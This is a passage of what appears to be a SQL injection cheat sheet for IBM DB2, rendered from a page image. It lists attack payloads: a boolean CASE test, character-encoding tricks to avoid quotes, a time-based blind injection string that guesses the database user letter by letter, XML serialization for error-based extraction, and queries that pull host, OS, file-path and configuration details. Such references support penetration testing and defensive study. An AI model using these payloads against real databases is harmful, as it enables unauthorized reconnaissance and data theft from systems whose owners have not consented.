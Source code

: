 ```
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```

### Avoiding Quotes

```
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
```

### Time Delay

Heavy queries, for example: If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. However, if user doesn't start with ascii 68, the heavy query won't execute and thus the response will be faster.

```
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

### Serialize to XML (for error based)

```
select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
```

### Command Execution and Local File Access

Seems it's only allowed from procedures or UDFs.

### Hostname/IP and OS INFO

```
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
```

### Location of DB Files

```
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
```

### System Config

```
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg -- Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.
```
